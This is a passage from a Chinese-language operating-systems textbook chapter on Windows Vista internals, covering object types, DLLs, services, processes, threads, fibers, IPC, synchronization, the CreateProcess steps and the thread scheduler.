7)文件系统设备对象有一个链接到文件系统驱动程序对象，叫NTFS。因此，驱动对象包含NTFS内创建操作的地址范围。
8)NTFS将填补该文件中的对象并将它返回到I/O管理器，I/O管理器备份堆栈中的所有设备，直到lopParseDevice返回对象管理器（如11.8节所述）。
9)在对象管理器以其名字空间中的查找结束。它从Parse程序收到一个初始化对象（这正好是一个文件对象，而不是原来对象发现的设备对象）。因此，对象管理器为文件对象在目前进程的句柄表里创建了一个句柄，并对需求者返回句柄。
10)最后一步是返回用户态的调用者，在这个例子里就是Win32 API CreateFile，它会把句柄返回给应用程序。
可执行组件能够通过调用ObCreateObjectType接口给对象管理器来动态创建新的类型。由于每次发布都在变化，所以没有一个限定的对象类型定义表。图11-23列出了在Windows Vista中非常通用的一些对象类型，供快速参考。
进程（process）和线程（thread）是明显的。每个进程和每个线程都有一个对象来表示，这个对象包含了管理进程或线程所需的主要属性。接下来的三个对象：信号量、互斥体和事件，都可以处理进程间的同步。信号量和互斥体按预期方式工作，但都需要额外的响铃和警哨（例如，最大值和超时设定）。事件可以在两种状态之一：已标记信号或未标记信号。如果一个线程等待事件处于已标记信号状态，线程被立即释放。如果该事件是未标记信号状态，它会一直阻塞直到一些其他线程信号释放所有被阻止的线程（通知事件）的活动或只是第一个被阻止的线程（同步事件）。也可以设置一个事件，这样一种信号成功等待后，它会自动恢复到该未标记信号的状态而不是处在已标记信号状态。
端口、定时器和队列对象也与通信和同步相关。端口是进程之间交换LPC消息的通道。定时器提供一种为特定的时间区间内阻塞的方法。队列用于通知线程已完成以前启动的异步I/O操作，或一个端口有消息等待。（它们被设计来管理应用程序中的并发的水平，以及在使用高性能多处理器应用中使用，如SQL）。
当一个文件被打开时，Open file对象将会被创建。没打开的文件，并没有对象由对象管理器管理。访问令牌是安全的对象。它们识别用户，并指出用户具有什么样的特权，如果有的话。配置文件是线程的用于存储程序计数器的正在运行的周期样本的数据结构，用以确定程序线程的时间是花在哪些地方了。
段用来表示内存对象，这些内存对象可以被应用程序向内存管理器请求，将应用程序的地址空间映射到这个区域中来。它们记录表示磁盘上的内存对象的页的文件（或页面文件）的段。键表示的是象管理名字空间的注册表名字空间的加载点。通常只有一个名为\REGISTRY关键对象，负责链接到注册表键值和NT名字空间的值。
对象目录和符号链接完全是本地对象管理器的NT名字空间的一部分。它们是类似于和它们对应的文件系统部分：目录允许要收集一些相关的对象。符号链接允许对象名字空间来引用一个对象名字空间的不同部分中的对象的一部分的名称。
每个已知的操作系统的设备有一个或多个设备对象包含有关它的信息，并且由系统引用该设备。最后，每个已加载设备驱动程序在对象空间中有一个驱动程序对象。驱动程序对象被所有那些表示被这些驱动控制的设备的实例共享。
其他没有介绍的对象有更多特别的目的，如同内核事务的交互或Win32线程池的工作线程工厂交互。
回到图11-6，我们可以看到Windows Vista操作系统是由内核态中的组件和用户态的组件组成的。现在我们已经介绍完了我们的内核态组件，因此，我们接下来看看用户态组件。其中对于Windows有三种组件尤为重要：环境子系统、DLL和服务进程。
我们已介绍Windows子系统模型，所以这里不作更多详细介绍，而主要是关注原始设计的NT，子系统被视为一种利用内核态运行相同底层软件来支持多个操作系统个性化的方法。也许这是试图避免操作系统竞争相同的平台，例如在DEC的VAX上的VMS和Berkeley UNIX。或者也许在微软没有人知道OS/2是否会成为一个成功的编程接口，他们加上了他们的投注。结果，OS/2成为无关的后来者，而Win32 API设计为与Windows 95结合并成为主导。
Windows用户态设计的第二个重要方面是在动态链接库（DLL），即代码是在程序运行的时候完成的链接，而非编译时。共享的库不是一个新的概念，最现代化的操作系统使用它们。在Windows中几乎所有库都是DLL，从每一个进程都装载的系统库ntdll.dll到旨在允许应用程序开发人员进行代码通用的功用函数的高层程序库。
DLL通过允许在进程之间共享通用代码来提高系统效率，保持常用代码在内存中，处理减少从程序磁盘到内存中的加载时间。并允许操作系统的库代码进行更新时无需重新编译或重新链接所有使用它的应用程序，从而提高系统的使用能力。
此外，共享的库介绍版本控制的问题，并增加系统的复杂性，因为为帮助某些特定的应用而引入的更改可能会给其他的一些特定的应用带来可能的错误，或者因为实现的改变而破坏了一些其他的应用——这是一个在Windows世界称为DLL黑洞的问题。
DLL的实现在概念上是简单的。并非直接调用相同的可执行映像中的子例程的代码，一定程度的间接性引用被编译器引入：IAT（导入地址表）。当可执行文件被加载时，它查找也必须加载的DLL的列表（这将是一个图结构，因为这些DLL本身会指定它们所需要的其他的DLL列表）。所需的DLL被加载并且填写好它们的IAT。
现实是更复杂的。另一个问题是代表DLL之间的关系图可以包含环，或具有不确定性行为，因此计算要加载的DLL列表可以导致不能运行的结果。此外，在Windows中DLL代码库有机会来运行代码，只要它们加载到了进程中或者创建一个新线程。通常，这是使它们可以执行初始化，或为每个线程分配存储空间，但许多DLL在这些附加例程中执行大量的计算。如果任何函数调用的一个附加例程需要检查加载的DLL列表，死锁可能会发生在这个过程。
DLL用于不仅仅共享常见的代码。它们还可以启用一种宿主的扩展应用程序模型。Internet Explorer可以下载并链接到DLL调用ActiveX控件。另一端互联网的Web服务器也加载动态代码，以为它们所显示的网页产生更好的Web体验。像Microsoft Office的应用程序允许链接并运行DLL，使得Office可以类似一个平台来构建新的应用程序。COM（组件对象模型）编程模式允许程序动态地查找和加载编写来提供特定发布接口的代码，这就导致几乎所有使用COM的应用程序都以in-process的方式来托管DLL。
所有这类动态加载的代码，为操作系统造成了更大的复杂性，因为程序库的版本管理不是只为可执行体匹配对应版本的DLL，而是有时把多个版本的同一个DLL加载到进程中——Microsoft称之为肩并肩（side-by-side）。单个的程序可以承载两个不同的DLL，每个可能要加载同一个Windows库——但对该库的版本有不同要求。
较好的解决方案是把代码放到独立的进程里。而在进程外承载的代码结果具有较低的性能，并在很多情况下会带来一个更复杂的编程模型。微软尚未提供在用户态下来处理这种复杂度的一个好的解决办法。但这让人对相对简单的内核态产生了希望。
该内核态具有较少的复杂性，是因为它相对于用户态提供了更少的对外部设备驱动模型的支持。在Windows中,系统功能的扩展是通过编写用户态服务来实现的。这对于子系统运行得很好，并且在只有很少更新的时候，而不是整个系统的个性化的情况下，能够取得更好的性能。在内核实现的服务和在用户态进程实现的服务之间只有很少的功能性差异。内核和过程都提供了专用地址空间，可以保护数据结构和服务请求可以被审议。
但是，可能会与服务的用户态处理内核中服务有重大的性能差异。通过现代的硬件从用户态进入内核是很慢的，但是也比不上要来回切换两次的更慢，因为还需要从内存切换出来进入另一个进程。而且跨进程通信带宽较低。
内核态代码（非常仔细地）可以把用户态处理的数据作为参数传递给其系统调用的方式来访问数据。通过用户态的服务，数据必须被复制到服务进程或由映射内存等提供的一些机制（Windows Vista中的ALPC功能在后台处理）。
将来跨地址空间的切换代价很可能会越来越小，保护模式将会减少，或甚至成为不相关。在Singularity中，微软研究院（Fandrich等人，2006年）使用运行时技术，类似C#和Java，用来做一个完全软件问题的保护。这就要求地址空间的切换或保护模式下没有硬件的切换代价。
Windows Vista利用用户态的服务进程极大地提升了系统的性能。其中一些服务是同内核的组件紧密相关的，例如lsass.exe这个本地安全身份验证服务，它管理了表示用户身份的令牌（token）对象，以及文件系统用来加密的密钥。用户态的即插即用管理器负责确定要使用新的硬件设备所需要的正确的驱动程序来安装它，并告诉内核加载它。系统的很多功能是由第三方提供的，如防病毒程序和数字版权管理，这些功能都是作为内核态驱动程序和用户态服务的组合方式实现的。
在Windows Vista中taskmgr.exe有一个选项卡，标识在系统上运行的服务。（早期版本的Windows将显示服务使用net start命令的列表）。很多服务是运行在同一进程（svchost.exe）中的。Windows也利用这种方式来处理自己启动时间的服务，以减少启动系统所需的时间。服务可以合并到相同的进程，只要它们能安全地使用相同的安全凭据。
在每个共享的服务进程内，个体服务是以DLL的形式加载的。它们通常利用Win32的线程池的功能来共享一个进程池，这样对于所有的服务，只需要运行最小数目的线程。
服务是系统中常见的安全漏洞的来源，因为它们是经常是可以远程访问的（取决于TCP/IP防火墙和IP安全设置），且不是所有程序员都是足够仔细的，他们很可能没有验证通过RPC传递的参数和缓冲区。
Windows具有大量的管理CPU和资源分组的概念。以下各节中，我们将检查这些有关的Win32 API调用的讨论，并介绍它们是如何实现的。
在Windows Vista中的进程是程序的容器。它们持有的虚拟地址空间，以及指向内核态的对象的线程的句柄。作为线程的容器，它们提供线程执行所需要的公共资源，例如配额结构的指针、共享的令牌对象以及用来初始化线程的默认参数——包括优先次序和调度类。每个进程都有用户态系统数据，称为PEB（进程环境块）。PEB包括已加载的模块（如EXE和DLL）列表，包含环境字符串的内存、当前的工作目录和管理进程堆的数据——以及很多随着时间的推移已添加的Win32 cruft。
线程是在Windows中调度CPU的内核抽象。优先级是基于进程中包含的优先级值来为每个线程分配的。线程也可以通过亲和处理只在某些处理器上运行。这有助于显式分发多处理器上运行的并发程序的工作。每个线程都有两个单独调用堆栈，一个在用户态执行，另一个内核态执行。也有TEB（线程环境块）使用户态数据指定到线程，包括每个线程存储区（线程本地存储区）和Win32字段、语言和文化本地化以及其他专门的字段，这些字段都被各种不同的功能添加上了。
除了PEB与TEB外，还有另一个数据结构，内核态与每个进程共享的，即用户共享数据。这个是可以由内核写的页，但是每个用户态进程只能读。它包含了一系列的由内核维护的值，如各种时间、版本信息、物理内存和大量的被用户态组件共享的标志，如COM、终端服务和调试程序。有关使用此只读的共享页，纯粹是出于性能优化的目的，因为值也能获得通过系统调用到内核态获得。但系统调用是比一个内存访问代价大很多，所以对于大量由系统维护的字段，例如时间，这样的处理就很有意义。其他字段，如当前时区更改很少，但依赖于这些字段的代码必须查询它们往往只是看它们是否已更改。
1.进程
进程创建是从段对象创建的，每个段对象描述了磁盘上某个文件的一个内存对象。在创建一个过程时创建的进程将接收一个句柄，这个句柄允许它通过映射段、分配虚拟内存、写参数和环境变量数据、复制文件描述符到它的句柄表、创建线程来修改新的进程。这非常不同于在UNIX中创建进程的，反映了Windows与UNIX初始设计目标系统的不同。
正如11.1节所描述，UNIX是为16位单处理器系统设计的，而这样的单处理器系统是用于在进程之间交换共享内存的。这样的系统中，进程作为并发的单元，并且使用像fork这样的操作来创建进程是一个天才般的设计主意。如果要在很小的内存中运行一个新的进程，并且没有硬件支持的虚拟内存，那么在内存中的进程就不得不换出到磁盘以创建空间。UNIX操作系统（一种多用户的计算机操作系统）最初仅仅通过简单的父进程交换技术和传递其物理内存给它的子进程来实现fork。这种操作和运行几乎是没有代价的。
相比之下，在Cutler小组开发NT的时代，当时的硬件环境是32位多处理器系统与虚拟内存硬件共享1～16兆字节的物理内存。多处理器为部分程序并行运行提供了可能，因此NT使用进程作为共享内存和数据资源的容器，并使用线程作为并发调度单元。
当然，随后几年里的系统就完全不同于这些环境了。例如拥有64位地址空间并且一个芯片上集成十几个（乃至数百个）CPU内核，存储体系结构中若干GB大小的物理内存以及闪存设备和其他非易失存储存设备的加入，更广泛虚拟化、普适网络的支持，以及例如事件型内存（transactional memory）这类同步技术的创新。Windows和UNIX操作系统无疑将继续适应现实中新的硬件，但我们更感兴趣的是，会有哪些新的操作系统会基于新硬件而被特别设计出来。
2.作业和纤程
Windows可以将进程分组为作业，但作业抽象并不足够通用。原因是其专为限制分组进程所包含的线程而设计，如通过限制共享资源配额、强制执行受限令牌（restricted token）来阻止线程访问许多系统对象。作业最重要的特性是一旦一个进程在作业中，该进程创建的进程、线程也在该作业中，没有特例。就像它的名字所示，作业是为类似批处理环境而非交互式计算环境而设计的。
一个进程最多属于一个作业。这是有道理的，因为很难去定义一个进程必须服从多个共享配额或限制令牌的情况。但这也意味着，如果有多个系统服务尝试使用作业来管理同一部分进程，则会产生冲突。例如，如果进程首先将自己加入到了一个作业中，或者一个安全的工具已经将其加入了带有一定受限令牌的作业中，则当一个管理工具试图将进程加入其他作业以限制其资源时将会失败。因此在Windows中很少使用作业。
图11-24显示了作业、进程、线程和纤程之间的关系。作业包含进程，进程包含线程，但是线程不包含纤程。线程与纤程通常是多对多的关系。
纤程通过分配栈与用来存储纤程相关寄存器和数据的用户态纤程数据结构来创建。线程被转换为纤程，但纤程也可以独立于线程创建。这些新创建的纤程直到一个已经运行的纤程显式地调用SwitchToFiber函数才开始执行。由于线程可以尝试切换到一个已经在运行的纤程，因此，程序员必须使用同步机制以防止这种情况发生。
纤程的主要优点在于纤程之间的切换开销要远远小于线程之间的切换。线程切换需要进出内核而纤程切换仅需要保存和恢复几个寄存器。
尽管纤程是协同调度的，如果有多个线程调度纤程，则需要非常小心地通过同步机制以确保纤程之间不会互相干扰。为了简化线程和纤程之间的交互，通常创建和能运行它们的内核数目一样多的线程，并且让每个线程只能运行在一套可用的处理器甚至只是一个单一的处理器上。
每个线程可以运行一个独立的纤程子集，从而建立起线程和纤程之间一对多的关系来简化同步。即便如此，使用纤程仍然有许多困难。大多数的Win32库是完全不识别纤程的，并且尝试像使用线程一样使用纤程的应用会遇到各种错误。由于内核不识别纤程，当一个纤程进入内核时，其所属线程可能阻塞。此时处理器会调度任意其他线程，导致该线程的其他纤程均无法运行。因此纤程很少使用，除非从其他系统移植那些明显需要纤程提供功能的代码。图11-25总结了上面提到的这些抽象。
3.线程
通常每一个进程是由一个线程开始的，但一个新的进程也可以动态创建。线程是CPU调度的基本单位，因为操作系统总是选择一个线程而不是进程来运行。因此，每一个线程有一个调度状态（就绪态、运行态、阻塞态等），而进程没有调度状态。线程可以通过调用指定了在其所属进程地址空间中的开始运行地址的Win32库函数动态创建。
每一个线程均有一个线程ID，其和进程ID取自同一空间，因此单一的ID不可能同时被一个线程和一个进程使用。进程和线程的ID是4的倍数，因为它们实际上是通过用于分配ID的特殊句柄表来执行分配的。该系统复用了如图11-18和图11-19所示的可扩展句柄管理功能。句柄表没有对象的引用，但使用指针指向进程或线程，使通过ID查找一个进程或线程非常有效。最新版本的Windows采用先进先出顺序管理空闲句柄列表，使ID无法马上重复使用。ID马上被重复使用的问题将在本章的最后问题部分再讨论。
线程通常在用户态运行，但是当它进行一个系统调用时，就切换到内核态，并以其在用户态下相同的属性以及限制继续运行。每个线程有两个堆栈，一个在用户态使用，而另一个在内核态使用。任何时候当一个线程进入内核态，其切换到内核态堆栈。用户态寄存器的值以上下文（context）数据结构的形式保存在该内核态堆栈底部。因为只有进入内核态的用户态线程才会停止运行，当它没有运行时该上下文数据结构中总是包括了其寄存器状态。任何拥有线程句柄的进程可以查看并修改这个上下文数据结构。
线程通常使用其所属进程的访问令牌运行，但在某些涉及客户机/服务器计算的情况下，一个服务器线程可能需要模拟其客户端，此时需要使用基于客户端令牌的临时令牌标识来执行客户的操作。（一般来说服务器不能使用客户端的实际令牌，因为客户端和服务器可运行于不同的系统。）
I/O处理也经常需要关注线程。当执行同步I/O时会阻塞线程，并且异步I/O相关的未完成的I/O请求也关联到线程。当一个线程完成执行，它可以退出，此时任何等待该线程的I/O请求将被取消。当进程中最后一个活跃线程退出时，这一进程将终止。
需要注意的是线程是一个调度的概念，而不是一个资源所有权的概念。任何线程可以访问其所属进程的所有对象，只需要使用句柄值，并进行合适的Win32调用。一个线程并不会因为一个不同的线程创建或打开了一个对象而无法访问它。系统甚至没有记录是哪一个线程创建了哪一个对象。一旦一个对象句柄已经在进程句柄表中，任何在这一进程中的线程均可使用它，即使它是在模拟另一个不同的用户。
正如前面所述，除了用户态运行的正常线程，Windows有许多只能运行在内核态的系统线程，而其与任何用户态进程都没有联系。所有这一类型的系统线程运行在一个特殊的称为系统进程的进程中。该进程没有用户态地址空间，其提供了线程在不代表某一特定用户态进程执行时的环境。当学到内存管理的时候，我们将讨论这样的一些线程。这些线程有的执行管理任务，例如写脏页面到磁盘上，而其他形成了工作线程池，来分配并执行部件或驱动程序需要系统进程执行的工作。
新的进程是由Win32 API函数CreatProcess创建的。这个函数有许多参数和大量的选项，包括被执行文件的名称，命令行字符串（未解析）和一个指向环境字符串的指针。其中也包括了控制诸多细节的令牌和数值，这些细节包括了如何配置进程和第一个线程的安全性，调试配置和调度优先级等。其中一个令牌指定创建者打开的句柄是否被传递到新的进程中。该函数还接受当前新进程的工作目录和可选的带有关于此进程使用GUI窗口的相关信息的数据结构。Win32对新进程和其原始线程都返回ID和句柄,而非只为新进程返回一个ID号。
大量的参数揭示了Windows和UNIX在进程创建的开发设计上的诸多的不同之处。
1)寻找执行程序的实际搜索路径隐藏在Win32的库代码里，但UNIX中则显式地管理该信息。
2)当前工作目录在UNIX操作系统里是一个内核态的概念，但是在Windows里是用户态字符串。Windows为每个进程都打开当前目录的一个句柄，这导致了和UNIX一样的麻烦：除了碰巧工作目录是跨网络的情况下可以删除它，其他工作目录都是不能删除的。
3)UNIX解析命令行，并传递参数数组；而Win32需要每个程序自己解析参数。其结果是，不同的程序可能采用不一致的方式处理通配符（如*.txt）和其他特殊字符。
4)在UNIX中，文件描述符是否可以被继承是句柄的一个属性。不过在Windows中，其同时是句柄和进程创建参数的属性。
5)Win32是面向图形用户界面的，因此新进程能直接获得其窗口信息，而在UNIX中，这些信息是通过参数传递给图形用户界面程序的。
6)Windows中的可执行代码没有SETUID位属性，不过一个进程也可以为另一个用户创建进程，只要其能获得该用户的信用标识。
7)Windows返回的进程、线程句柄可以用在很多独立的方法中修改新进程/线程，例如复制句柄、在新进程中设置环境变量等。UNIX则只在fork和exec调用的时候修改新进程。
这些不同有些是来自历史原因和哲学原因。UNIX的设计是面向命令行的，而不是像Windows那样面向图形用户界面的。UNIX的用户相比来说更高级，同时也懂得像PATH环境变量的概念。Windows Vista继承了很多MS-DOS中的东西。
这种比较也有点偏颇，因为Win32是一个用户态下的对NT本地进程执行的包装器，就像UNIX下的系统库函数fork/exec的封装。实际的NT中创建进程和线程的系统调用NtCreateProcess和NtCreateThread比Win32版本简单得多。NT进程创建的主要参数包括代表所要运行的程序文件句柄、一个指定新进程是否默认继承创建者句柄的标志，以及有关安全模型的相关参数。由于用户态下的代码能够使用新建进程的句柄能对新进程的虚拟地址空间进行直接的操作，所有关于建立环境变量、创建初始线程的细节就留给用户态代码来解决。
为了支持POSIX子系统，本地进程创建有一个选项可以指定，通过拷贝另一个进程的虚拟地址空间来创建一个新进程，而不是通过映射一个新程序的段对象来新建进程。这种方式只用在实现POSIX的fork，而不是Win32的。
线程创建时传给新线程的参数包括：CPU的上下文信息（包括栈指针和起始指令地址）、TEB模板、一个表示线程创建后马上运行或以挂起状态创建（等待有人对线程句柄调用NtResumeThread函数）的标志。用户态下的栈的创建以及argv/argc参数的压入需要由用户态下的代码来解决，必须对进程句柄调用本地NT的内存管理API。
在Windows Vista的发行版中，包含了一个新的关于进程操作方面的本地API，这个接口将原来许多用户态下的步骤转移到了内核态下执行，同时将进程创建与起始线程创建绑定在一起进行。作这种改变的原因是支持通过进程划分信任边界。一般来说，所有用户创建的进程被同等信任，由用户决定信任边界在哪里。在Windows Vista中的这个改变，允许进程也可以提供信任边界，但是这意味着对于新进程句柄来说，创建者进程没有足够的权利在用户态下实现进程创建的细节。
1.进程间通信
线程间可以通过多种方式进行通信，包括管道、命名管道、邮件槽、套接字、远程过程调用（RPC）、共享文件等。管道有两种模式：字节管道和消息管道，可以在创建的时候选择。字节模式的管道的工作方式与UNIX下的工作方式一样。消息模式的管道与字节模式的管道大致相同，但会维护消息边界。所以写入四次的128字节，读出来也是四个128字节的消息，而不会像字节模式的管道一样读出的是一个512字节的消息。命名管道在Vista中也是有的，跟普通的管道一样都有两种模式，但命名管道可以在网络中使用，而普通管道只能在单机中使用。
邮件槽是OS/2操作系统的特性，在Windows中实现只是为了兼容性。它们在某种方式上跟管道类似，但不完全相同。首先，它们是单向的，而管道则是双向的。而且，它们能够在网络中使用但不提供有保证的传输。最后，它们允许发送进程将消息广播给多个接收者而不仅仅是一个接收者。邮件槽和命名管道在Windows中都是以文件系统的形式实现，而非可执行的功能函数。这样做就可以通过现有的远程文件系统协议在网络上来访问到它们。
套接字也与管道类似，只不过它们通常连接的是不同机器上的两个进程。例如，一个进程往一个套接字里面写入内容，远程机器上的另外一个进程从这个套接字中读出来。套接字同样也可以被用在同一台机器上的进程通信，但是因为它们比管道带来了更大的开销，所以一般来说它们只被用于网络环境下的通信。套接字原来是为伯克利UNIX而设计的，它的实现代码很多都是可用的，正如Windows发布日志里面所写的，Windows代码中使用了一些伯克利的代码及数据结构。
远程过程调用（RPC）是一种进程A命令进程B调用进程B地址空间中的一个函数，然后将执行结果返回给进程A的方式。在这个过程中对参数的限制很多。例如，如果传递的是个指针，那么对于进程B来说这个指针毫无意义，因此必须把数据结构打包起来然后以进程无关的方式传输。实现RPC的时候，通常是把它作为传输层之上的抽象层来实现。例如对于Windows来说，可以通过TCP/IP套接字、命名管道、ALPC来进行传输。ALPC的全称是高级本地过程调用（Advanced Local Procedure Call），它是内核态下的一种消息传递机制，为同一台机器中的进程间通信作了优化，但不支持网络间通信。基本的设计思想是可以发送有回复的消息，以此来实现一个轻量级的RPC版本，提供比ALPC更丰富的特性。ALPC的实现是通过拷贝参数以及基于消息大小的临时共享内存分配。
最后，进程间可以共享对象，如段对象。段对象可以同时被映射到多个进程的虚拟地址空间中，一个进程执行了写操作之后，其他进程可以也可以看见这个写操作。通过这个机制，在生产者消费者问题中用到的共享缓冲区就可以轻松地实现。
2.同步
进程间也可以使用多种形式的同步对象。就像Windows Vista中提供了多种形式的进程间通信机制一样，Vista也提供了多种形式的同步机制，包括信号量、互斥量、临界区和事件。所有的这些机制只在线程上工作，而非进程。所以当一个线程由于一个信号量而阻塞时，同一个进程的其他线程（如果有的话）会继续运行而并不会被影响。
使用Win32的API函数CreateSemaphore可以创建一个信号量，可以将它初始化为一个给定的值，同时也可以指定最大值。信号量是一个内核态对象，因此拥有安全描述符和句柄。信号量的句柄可以通过使用DuplicateHandler来进行复制，然后传递给其他进程使得多个进程可以通过相同的信号量来进行同步。在Win32的名字空间中一个信号量也可以被命名，可以拥有一个ACL集合来保护它。有些时候通过名字来共享信号量比通过拷贝句柄更合适。
对up和down的调用也是有的，只不过它们的函数名看起来比较奇怪：ReleaseSemaphore（up）和WaitForSingleObject（down）。可以给WaitForSingleObject一个超时时间，使得尽管此时信号量仍然是0，调用它的线程仍然可以被释放（尽管定时器重新引入了竞态）。WaitForSingleObject和WaitForMultipleObject是将在11.3节中讨论的分发者对象的常见接口。尽管有可能将单个对象的API封装成看起来更加像信号量的名字，但是许多线程使用多个对象的版本，这些对象可能是各种各样的同步对象，也可能是其他类似进程或线程结束、I/O结束、消息到达套接字和端口等事件。
互斥量也是用于同步的内核态对象，但是比信号量简单，因为互斥量不需要计数器。它们其实是锁，上锁的函数是WaitForSingleObject，解锁的函数是ReleaseMutex。就像信号量句柄一样，互斥量的句柄也可以复制，并且在进程间传递，从而不同进程间的线程可以访问同一个互斥量。
第三种同步机制是临界区，实现的是临界区的概念。临界区在Windows中与互斥量类似，但是临界区相对于主创建线程的地址空间来说是本地的。因为临界区不是内核态的对象，所以它们没有显式的句柄或安全描述符，而且也不能在进程间传递。上锁和解锁的函数分别是EnterCriticalSection和LeaveCriticalSection。因为这些API函数在开始的时候只是在用户空间中，只有当需要阻塞的时候才调用内核函数，它们比互斥量快得多。在需要的时候，可以通过合并自旋锁（在多处理器上）和内核同步机制来优化临界区。在许多应用中，大多数的临界区几乎不会被竞争或者只被锁住很短的时间，以至于没必要分配一个内核同步对象，这样会极大地节省内核内存。
我们讨论的最后一种同步机制叫事件，它使用内核态对象。就像我们前面描述的，有两类的事件——通知事件和同步事件。一个事件的状态有两种：收到信号和没收到信号。一个线程通过调用WaitForSingleObject来等待一个事件被信号通知。如果另一个线程通过SetEvent给事件发信号，会发生什么取决于这个事件的类型。对于通知事件来说，所有等待线程都会被释放，并且事件保持在set状态，直到手工调用ResetEvent进行清除；对于同步事件来说，如果有一个或多个线程在等待，那么有且仅有一个线程会被唤醒并且事件被清除。另一个替换的操作是PulseEvent，像SetEvent一样，除了在没有人等待的时候脉冲会丢失，而事件也被清除。相反，如果调用SetEvent时没有等待的线程，那么这个设置动作依然会起作用，被设置的事件处于被信号通知的状态，所以当后面的那个线程调用等待事件的API时，这个线程将不会等待而直接返回。
Win32的API中关于进程、线程、纤程的个数将近100个，其中大量的是各种形式的处理IPC的函数。对上面讨论的总结和另一些比较重要的内容可以参见图11-26。
可以注意到不是所有的这些都是系统调用。其中有一些是包装器，有一些包含了重要的库代码，这些库代码将Win32的接口映射到本地NT接口。另外一些，例如纤程的API，全部都是用户态下的函数，因为就像我们之前提到的，Windows Vista的内核态中根本没有纤程的概念，纤程完全都是由用户态下的库来实现的。
本节将用更多细节来讲述Windows如何创建一个进程。因为Win32是最具文档化的接口，因此我们将从这里开始讲述。我们迅速进入内核来理解创建一个新进程的本地API调用是如何实现的。这里有很多细节我们都将略过，比如在创建一个路径的时候，WOW16和WOW64有怎样专用的代码，以及系统如何提供特定应用的修补来修正应用程序中的小的不兼容性和延迟错误。我们主要集中在创建进程时执行的主代码路径，以及看一看我们已经介绍的知识之间还欠缺的一些细节。
当用一个进程调用Win32 CreateProcess系统调用的时候，则创建一个新的进程。这种调用使用kernel32.dll中的一个（用户态）进程来分几步创建新进程，其中会使用多次系统调用和执行其他的一些操作。
1)把可执行的文件名从一个Win32路径名转化为一个NT路径名。如果这个可执行文件仅有一个名字，而没有一个目录名，那么就在默认的目录里面查找（包括，但不限于，那些在PATH环境变量中的）。
2)绑定这个创建过程的参数，并且把它们和可执行程序的完全路径名传递给本地API NtCreateUserProcess。（这个API被增加到Window Vista使得创建进程的细节可以在内核态里处理，从而让进程可以在可信的边界内使用。之前介绍的那些API仍然是存在的，只是不再被Win32的CreateProcess调用使用。）
3)在内核态里运行，NtCreateUserProcess执行参数，然后打开这个进程的映像，创建一个内存区对象（section object），它能够用来把程序映射到新进程的虚拟地址空间。
4)进程管理器分配和初始化进程对象。（对于内核和执行层，这个内核数据结构就表示一个进程。）
5)内存管理器通过分配和创建页目录及虚拟地址描述符来为新进程创建地址空间。虚拟地址描述符描述内核态部分，包括特定进程的区域，例如自映射的页目录入口可以为每一个进程在内核态使用内核虚拟地址来访问它整个页表中的物理页面。
6)一个句柄表为新的进程所创建。所有来自于调用者并允许被继承的句柄都被复制到这个句柄表中。
7)共享的用户页被映射，并且内存管理器初始化一个工作集的数据结构，这个数据结构是在物理内存缺少的时候用来决定哪些页可以从一个进程里面移出。可执行映像中由内存区对象表示的部分会被映射到新进程的用户态地址空间。
8)执行体创建和初始化用户态的进程环境块(PEB)，这个PEB为用户态和内核用来维护进程范围的状态信息，例如用户态的堆指针和可加载库列表(DLL)。
9)虚拟内存是分配在（ID表）新进程里面的，并且用于传递参数，包括环境变量和命令行。
10)一个进程ID从特殊的句柄表（ID表）分配，这个句柄表是为了有效地定位进程和线程局部唯一的ID。
11)一个线程对象被分配和初始化。在分配线程环境块（TEB）的同时，也分配一个用户态栈。包含了线程的为CPU寄存器保持的初始值（包括指令和栈指针）的CONTEXT记录也被初始化了。
12)进程对象被放入进程全局列表中。进程和线程对象的句柄被分配到调用者的句柄表中。ID表会为初始线程分配一个ID。
13)NtCreateUserProcess向用户态返回新建的进程，其中包括处于就绪并被挂起的单一线程。
14)如果NT API失败，Win32代码会查看进程是否属于另一子系统，如WOW64。或者程序可能设置为在调试状态下运行。以上特殊情况由用户态的CreateProcess代码处理。
15)如果NtCreateUserProcess成功，还有一些操作要完成。Win32进程必须向Win32子系统进程csrss.exe注册。Kernel32.dll向csrss.exe发送信息——新的进程及其句柄和线程句柄，从而进程可以自我复制了。进程和线程加入子系统列表中，从而它们拥有了所有Win32的进程和线程的完整列表。子系统此时就显示一个的带沙漏光标表明系统正运行，但光标还能使用。当进程首次调用GUI函数，通常是创建新窗口，光标将消失（如果没有调用到来，2秒后就会超时）。
16)如果进程受限，如低权限的Internet Explorer，令牌会被改变，限制新进程访问对象。
17)如果应用程序被设置成需要与当前Windows版本加垫层（shim）地兼容运行，则特定的垫层将运行（垫层通常封装库调用以稍微修改它们的行为，例如返回一个假的版本号或者延迟内存的释放）。
18)最后，调用NtResumeThread挂起线程，并把这个结构返回给包含所创建的进程和线程的ID、句柄的调用者。
调度
Windows内核没有任何中央调度线程。所以，当一个线程不能够再执行时，线程将进入内核态，调度线程再决定转向的下一个线程。在下面这些情况下，当前正在执行的线程会执行调度程序代码：
1.当前执行的线程发生了信号量、互斥、事件、I/O等类型的阻塞。
2.线程向一个对象发信号（如发一个信号或者是唤醒一个事件）时。
3.配额过期。
第一种情况，线程已经在内核态运行并开始对调度器或输入输出对象执行操作了。它将不能继续执行，所以线程会请求调度程序代码寻找装载下一个线程的CONTEXT记录去恢复其执行。
第二种情况，线程也是在内核中运行。但是，在向一些对象发出信号后，它肯定还能够继续执行，因为发信号对象从来没有受到阻塞。然而，线程必须请求调度程序，来观测它的执行结果是否释放了一个具有更高调度优先级的正准备运行的线程。如果是这样，因为Windows完全是可抢占式的，所以就会发生一个线程切换（例如，线程切换可以发生在任何时候，不仅仅是在当前线程结束时）。但是，在多处理器的情况下，处于就绪状态的线程会在另一个CPU上被调度,那么，即使原来线程拥有较低的调度优先级，也能在当前的CPU上继续执行。
第三种情况，内核态发生中断，这时线程执行调度程序代码找到下一个运行的线程。由于取决于其他等待的线程，可能会选择同样的线程，这样线程就会获得新的配额，可以继续执行。否则发生线程切换。
在另外两种情况下，调度程序也会被调度：
1)一个输入输出操作完成时。
2)等待时间结束时。
在第一种情况下，线程可能处于等待输入输出时被释放然后执行。如果不保证最小执行时间，必须检查是否可以事先对运行的线程进行抢占。调度程序不会在中断处理程序中运行（因为那使中断关闭保持太久）。相反，中断处理发生后，DPC会排队等待一会儿。第二种情况下，线程已经对一个信号量进行了down操作或者因一些其他对象而被阻塞，但是定时器已经过期。对于中断处理程序来说，有必要让DPC再一次排队等待，以防止它在定时器中断处理程序时运行。
